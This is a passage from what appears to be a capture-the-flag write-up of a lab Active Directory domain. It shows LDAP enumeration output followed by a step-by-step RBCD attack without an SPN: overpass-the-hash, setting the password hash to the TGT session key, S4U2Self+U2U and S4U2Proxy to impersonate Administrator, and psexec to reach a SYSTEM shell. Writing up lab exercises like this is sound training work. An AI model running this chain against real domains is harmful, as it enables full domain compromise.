LDAP        10.129.234.63   389    DC               [+] Response for object: CN=Carlos Cooper,OU=IT,OU=PHANTOM,DC=phantom,DC=vl
LDAP        10.129.234.63   389    DC               [+] Response for object: CN=Cert Publishers,CN=Users,DC=phantom,DC=vl
LDAP        10.129.234.63   389    DC               [+] Response for object: CN=Certificate Service DCOM Access,CN=Builtin,DC=phantom,DC=vl
LDAP        10.129.234.63   389    DC               [+] Response for object: CN=Charlie Ferguson,OU=Finance,OU=PHANTOM,DC=phantom,DC=vl
LDAP        10.129.234.63   389    DC               [+] Response for object: CN=Charlene Jones,OU=Finance,OU=PHANTOM,DC=phantom,DC=vl
LDAP        10.129.234.63   389    DC               [+] Response for object: CN=Cloneable Domain Controllers,CN=Users,DC=phantom,DC=vl
LDAP        10.129.234.63   389    DC               [+] Response for object: CN=Chloe Rose,OU=IT,OU=PHANTOM,DC=phantom,DC=vl
LDAP        10.129.234.63   389    DC               [+] Response for object: CN=Cryptographic Operators,CN=Builtin,DC=phantom,DC=vl
LDAP        10.129.234.63   389    DC               [+] Response for object: CN=DC,OU=Domain Controllers,DC=phantom,DC=vl
LDAP        10.129.234.63   389    DC               servicePrincipalName TERMSRV/DC
LDAP        10.129.234.63   389    DC                                    TERMSRV/DC.phantom.vl
LDAP        10.129.234.63   389    DC                                    Dfsr-12F9A27C-BF97-4787-9364-D31B6C55EB04/DC.phantom.vl
LDAP        10.129.234.63   389    DC                                    ldap/DC.phantom.vl/ForestDnsZones.phantom.vl
LDAP        10.129.234.63   389    DC                                    ldap/DC.phantom.vl/DomainDnsZones.phantom.vl
LDAP        10.129.234.63   389    DC                                    DNS/DC.phantom.vl
LDAP        10.129.234.63   389    DC                                    GC/DC.phantom.vl/phantom.vl
LDAP        10.129.234.63   389    DC                                    RestrictedKrbHost/DC.phantom.vl
LDAP        10.129.234.63   389    DC                                    RestrictedKrbHost/DC
LDAP        10.129.234.63   389    DC                                    RPC/886581ab-9534-4850-a6ab-57905e3f998c._msdcs.phantom.vl
LDAP        10.129.234.63   389    DC                                    HOST/DC/PHANTOM
LDAP        10.129.234.63   389    DC                                    HOST/DC.phantom.vl/PHANTOM
LDAP        10.129.234.63   389    DC                                    HOST/DC
LDAP        10.129.234.63   389    DC                                    HOST/DC.phantom.vl
LDAP        10.129.234.63   389    DC                                    HOST/DC.phantom.vl/phantom.vl
LDAP        10.129.234.63   389    DC                                    E3514235-4B06-11D1-AB04-00C04FC2DCD2/886581ab-9534-4850-a6ab-57905e3f998c/phantom.vl
LDAP        10.129.234.63   389    DC                                    ldap/DC/PHANTOM
LDAP        10.129.234.63   389    DC                                    ldap/886581ab-9534-4850-a6ab-57905e3f998c._msdcs.phantom.vl
LDAP        10.129.234.63   389    DC                                    ldap/DC.phantom.vl/PHANTOM
LDAP        10.129.234.63   389    DC                                    ldap/DC
LDAP        10.129.234.63   389    DC                                    ldap/DC.phantom.vl
LDAP        10.129.234.63   389    DC                                    ldap/DC.phantom.vl/phantom.vl
LDAP        10.129.234.63   389    DC               [+] Response for object: CN=Denied RODC Password Replication Group,CN=Users,DC=phantom,DC=vl
LDAP        10.129.234.63   389    DC               [+] Response for object: CN=DevOps,OU=IT,OU=PHANTOM,DC=phantom,DC=vl
LDAP        10.129.234.63   389    DC               [+] Response for object: CN=Distributed COM Users,CN=Builtin,DC=phantom,DC=vl
LDAP        10.129.234.63   389    DC               [+] Response for object: CN=DnsAdmins,CN=Users,DC=phantom,DC=vl
LDAP        10.129.234.63   389    DC               [+] Response for object: CN=DnsUpdateProxy,CN=Users,DC=phantom,DC=vl
LDAP        10.129.234.63   389    DC               [+] Response for object: CN=Domain Admins,CN=Users,DC=phantom,DC=vl
LDAP        10.129.234.63   389    DC               [+] Response for object: CN=Domain Computers,CN=Users,DC=phantom,DC=vl
LDAP        10.129.234.63   389    DC               [+] Response for object: CN=Domain Controllers,CN=Users,DC=phantom,DC=vl
LDAP        10.129.234.63   389    DC               [+] Response for object: CN=Domain Guests,CN=Users,DC=phantom,DC=vl
LDAP        10.129.234.63   389    DC               [+] Response for object: CN=Domain Users,CN=Users,DC=phantom,DC=vl
LDAP        10.129.234.63   389    DC               [+] Response for object: CN=Edwin Bryant,OU=HR,OU=PHANTOM,DC=phantom,DC=vl
LDAP        10.129.234.63   389    DC               [+] Response for object: CN=Ethel Lynch,OU=HR,OU=PHANTOM,DC=phantom,DC=vl
LDAP        10.129.234.63   389    DC               [+] Response for object: CN=EmployeeRelations,OU=HR,OU=PHANTOM,DC=phantom,DC=vl
LDAP        10.129.234.63   389    DC               [+] Response for object: CN=Enterprise Admins,CN=Users,DC=phantom,DC=vl
LDAP        10.129.234.63   389    DC               [+] Response for object: CN=Enterprise Key Admins,CN=Users,DC=phantom,DC=vl
LDAP        10.129.234.63   389    DC               [+] Response for object: CN=Enterprise Read-only Domain Controllers,CN=Users,DC=phantom,DC=vl
LDAP        10.129.234.63   389    DC               [+] Response for object: CN=Event Log Readers,CN=Builtin,DC=phantom,DC=vl
LDAP        10.129.234.63   389    DC               [+] Response for object: CN=Flenn Hanson,OU=HR,OU=PHANTOM,DC=phantom,DC=vl
LDAP        10.129.234.63   389    DC               [+] Response for object: CN=FinManagers,OU=Finance,OU=PHANTOM,DC=phantom,DC=vl
LDAP        10.129.234.63   389    DC               [+] Response for object: CN=Gerald Hall,OU=Finance,OU=PHANTOM,DC=phantom,DC=vl
LDAP        10.129.234.63   389    DC               [+] Response for object: CN=Group Policy Creator Owners,CN=Users,DC=phantom,DC=vl
LDAP        10.129.234.63   389    DC               [+] Response for object: CN=Guest,CN=Users,DC=phantom,DC=vl
LDAP        10.129.234.63   389    DC               [+] Response for object: CN=Guests,CN=Builtin,DC=phantom,DC=vl
LDAP        10.129.234.63   389    DC               [+] Response for object: CN=HRManagers,OU=HR,OU=PHANTOM,DC=phantom,DC=vl
LDAP        10.129.234.63   389    DC               [+] Response for object: CN=Hyper-V Administrators,CN=Builtin,DC=phantom,DC=vl
LDAP        10.129.234.63   389    DC               [+] Response for object: CN=Isobel Bryant,OU=IT,OU=PHANTOM,DC=phantom,DC=vl
LDAP        10.129.234.63   389    DC               [+] Response for object: CN=ICT Security,OU=IT,OU=PHANTOM,DC=phantom,DC=vl
LDAP        10.129.234.63   389    DC               [+] Response for object: CN=IIS_IUSRS,CN=Builtin,DC=phantom,DC=vl
LDAP        10.129.234.63   389    DC               [+] Response for object: CN=Incoming Forest Trust Builders,CN=Builtin,DC=phantom,DC=vl
LDAP        10.129.234.63   389    DC               [+] Response for object: CN=Key Admins,CN=Users,DC=phantom,DC=vl
LDAP        10.129.234.63   389    DC               [+] Response for object: CN=krbtgt,CN=Users,DC=phantom,DC=vl
LDAP        10.129.234.63   389    DC               servicePrincipalName kadmin/changepw
LDAP        10.129.234.63   389    DC               [+] Response for object: CN=Lois Stanley,OU=IT,OU=PHANTOM,DC=phantom,DC=vl
LDAP        10.129.234.63   389    DC               [+] Response for object: CN=Network Configuration Operators,CN=Builtin,DC=phantom,DC=vl
LDAP        10.129.234.63   389    DC               [+] Response for object: CN=Nathaniel Hamilton,OU=IT,OU=PHANTOM,DC=phantom,DC=vl
LDAP        10.129.234.63   389    DC               [+] Response for object: CN=Performance Log Users,CN=Builtin,DC=phantom,DC=vl
LDAP        10.129.234.63   389    DC               [+] Response for object: CN=Performance Monitor Users,CN=Builtin,DC=phantom,DC=vl
LDAP        10.129.234.63   389    DC               [+] Response for object: CN=Penny Harrison,OU=HR,OU=PHANTOM,DC=phantom,DC=vl
LDAP        10.129.234.63   389    DC               [+] Response for object: CN=Penny Payne,OU=Finance,OU=PHANTOM,DC=phantom,DC=vl
LDAP        10.129.234.63   389    DC               [+] Response for object: CN=Pre-Windows 2000 Compatible Access,CN=Builtin,DC=phantom,DC=vl
LDAP        10.129.234.63   389    DC               [+] Response for object: CN=Print Operators,CN=Builtin,DC=phantom,DC=vl
LDAP        10.129.234.63   389    DC               [+] Response for object: CN=Protected Users,CN=Users,DC=phantom,DC=vl
LDAP        10.129.234.63   389    DC               [+] Response for object: CN=RAS and IAS Servers,CN=Users,DC=phantom,DC=vl
LDAP        10.129.234.63   389    DC               [+] Response for object: CN=RDS Endpoint Servers,CN=Builtin,DC=phantom,DC=vl
LDAP        10.129.234.63   389    DC               [+] Response for object: CN=RDS Management Servers,CN=Builtin,DC=phantom,DC=vl
LDAP        10.129.234.63   389    DC               [+] Response for object: CN=RDS Remote Access Servers,CN=Builtin,DC=phantom,DC=vl
LDAP        10.129.234.63   389    DC               [+] Response for object: CN=Read-only Domain Controllers,CN=Users,DC=phantom,DC=vl
LDAP        10.129.234.63   389    DC               [+] Response for object: CN=Remote Desktop Users,CN=Builtin,DC=phantom,DC=vl
LDAP        10.129.234.63   389    DC               [+] Response for object: CN=Remote Management Users,CN=Builtin,DC=phantom,DC=vl
LDAP        10.129.234.63   389    DC               [+] Response for object: CN=Replicator,CN=Builtin,DC=phantom,DC=vl
LDAP        10.129.234.63   389    DC               [+] Response for object: CN=Rita Nichols,OU=IT,OU=PHANTOM,DC=phantom,DC=vl
LDAP        10.129.234.63   389    DC               [+] Response for object: CN=Schema Admins,CN=Users,DC=phantom,DC=vl
LDAP        10.129.234.63   389    DC               [+] Response for object: CN=Server Admins,OU=IT,OU=PHANTOM,DC=phantom,DC=vl
LDAP        10.129.234.63   389    DC               [+] Response for object: CN=Server Operators,CN=Builtin,DC=phantom,DC=vl
LDAP        10.129.234.63   389    DC               [+] Response for object: CN=Sherri Simpson,OU=HR,OU=PHANTOM,DC=phantom,DC=vl
LDAP        10.129.234.63   389    DC               [+] Response for object: CN=SSPR Service,CN=Users,DC=phantom,DC=vl
LDAP        10.129.234.63   389    DC               [+] Response for object: CN=Shane Steward,OU=Finance,OU=PHANTOM,DC=phantom,DC=vl
LDAP        10.129.234.63   389    DC               [+] Response for object: CN=Storage Replica Administrators,CN=Builtin,DC=phantom,DC=vl
LDAP        10.129.234.63   389    DC               [+] Response for object: CN=svc_sspr,CN=Users,DC=phantom,DC=vl
LDAP        10.129.234.63   389    DC               [+] Response for object: CN=TechSupports,OU=IT,OU=PHANTOM,DC=phantom,DC=vl
LDAP        10.129.234.63   389    DC               [+] Response for object: CN=Terminal Server License Servers,CN=Builtin,DC=phantom,DC=vl
LDAP        10.129.234.63   389    DC               [+] Response for object: CN=Ted Wright,OU=Finance,OU=PHANTOM,DC=phantom,DC=vl
LDAP        10.129.234.63   389    DC               [+] Response for object: CN=Users,CN=Builtin,DC=phantom,DC=vl
LDAP        10.129.234.63   389    DC               [+] Response for object: CN=Vicki Cunningham,OU=IT,OU=PHANTOM,DC=phantom,DC=vl
LDAP        10.129.234.63   389    DC               [+] Response for object: CN=Vincent Howard,OU=Finance,OU=PHANTOM,DC=phantom,DC=vl
LDAP        10.129.234.63   389    DC               [+] Response for object: CN=Vera Lynch,OU=IT,OU=PHANTOM,DC=phantom,DC=vl
LDAP        10.129.234.63   389    DC               [+] Response for object: CN=Windows Authorization Access Group,CN=Builtin,DC=phantom,DC=vl
LDAP        10.129.234.63   389    DC               [+] Response for object: CN=Willard Silva,OU=IT,OU=PHANTOM,DC=phantom,DC=vl
LDAP        10.129.234.63   389    DC               [+] Response for object: CN=Wendy Stewart,OU=HR,OU=PHANTOM,DC=phantom,DC=vl
```
Unfortunately we dont have `spn` account which we control so we can set an `spn` to an account that we control  : ) but unfortunately we dont have an account with `genericall` right  or we dont have an access to account where we can create an computer and assign spn while researching i did find an intersting way to abuse RBCD delegation without `spn` : ) lets try

>(https://github.com/GhostPack/Rubeus/pull/137) : refernce

First we need to obtain an TGT through overpass-the-hash and retrieve the TGT session key
```bash
┌──(penguin㉿0X0F)-[~/OSCP/Phantom/loot/config]
└─$ impacket-getTGT -hashes :$(pypykatz crypto nt "Password@123") "phantom.vl/RNICHOLS"
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in RNICHOLS.ccache
```

then we can grep the session key from TGT 
```bash
┌──(penguin㉿0X0F)-[~/OSCP/Phantom/loot/config]
└─$ impacket-describeTicket RNICHOLS.ccache | grep 'Ticket Session Key'
[*] Ticket Session Key            : 85ce2d9e9373eb806e5dc7fa5ffbadcf
```
then we need to change the users password and  set it to the TGT session key.

```bash
┌──(penguin㉿0X0F)-[~/OSCP/Phantom/loot/config]
└─$ impacket-changepasswd -newhashes :85ce2d9e9373eb806e5dc7fa5ffbadcf "phantom.vl/RNICHOLS:Password@123"@"DC.phantom.vl"
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Changing the password of phantom.vl\RNICHOLS
[*] Connecting to DCE/RPC as phantom.vl\RNICHOLS
[*] Password was changed successfully.
[!] User might need to change their password at next logon because we set hashes (unless password never expires is set).
```
then we can export the ticket
```bash
┌──(penguin㉿0X0F)-[~/OSCP/Phantom/loot/config]
└─$ export KRB5CCNAME=RNICHOLS.ccache

┌──(penguin㉿0X0F)-[~/OSCP/Phantom/loot/config]
└─$ klist
Ticket cache: FILE:RNICHOLS.ccache
Default principal: RNICHOLS@PHANTOM.VL

Valid starting     Expires            Service principal
11/13/26 01:47:45  11/13/26 11:47:45  krbtgt/PHANTOM.VL@PHANTOM.VL
        renew until 11/14/26 01:47:44
```
then we can set `msDS-AllowedToActOnBehalfOfOtherIdentity` right on the user `RNICHOLS`
```bash
┌──(penguin㉿0X0F)-[~/OSCP/Phantom/loot/config]
└─$ bloodyAD --host DC.phantom.vl -d phantom.vl -u RNICHOLS -k add rbcd 'DC$' 'RNICHOLS'
[!] No security descriptor has been returned, a new one will be created
[+] RNICHOLS can now impersonate users on DC$ via S4U2Proxy
```
then Obtain the delegated service ticket through S4U2Self+U2U, followed by S4U2Proxy
```bash
┌──(penguin㉿0X0F)-[~/OSCP/Phantom/loot/config]
└─$ impacket-getST -u2u -impersonate Administrator -spn 'cifs/DC.phantom.vl' -k -no-pass phantom.vl/RNICHOLS
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Impersonating Administrator
[*] Requesting S4U2self+U2U
[*] Requesting S4U2Proxy
[*] Saving ticket in Administrator@cifs_DC.phantom.vl@PHANTOM.VL.ccache
```

After theat we can export the ticket and use psexec for the lateral movement
```bash
┌──(penguin㉿0X0F)-[~/OSCP/Phantom/loot/config]
└─$ export KRB5CCNAME=Administrator@cifs_DC.phantom.vl@PHANTOM.VL.ccache

┌──(penguin㉿0X0F)-[~/OSCP/Phantom/loot/config]
└─$ impacket-psexec -k -no-pass DC.phantom.vl
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Requesting shares on DC.phantom.vl.....
[*] Found writable share ADMIN$
[*] Uploading file CjXeDpYr.exe
[*] Opening SVCManager on DC.phantom.vl.....
[*] Creating service WVLX on DC.phantom.vl.....
[*] Starting service WVLX.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.20348.4052]
(c) Microsoft Corporation. All rights reserved.

C:\Users\Administrator\Desktop> type root.txt
327ae0ccab20b773d6f4d2980bc5bbcc

C:\Users\Administrator\Desktop> whoami
nt authority\system

C:\Users\Administrator\Desktop>
```

> Also its worth noting changing the RC4 Key on an account make RC4 and AES key out which can disrupt the network 


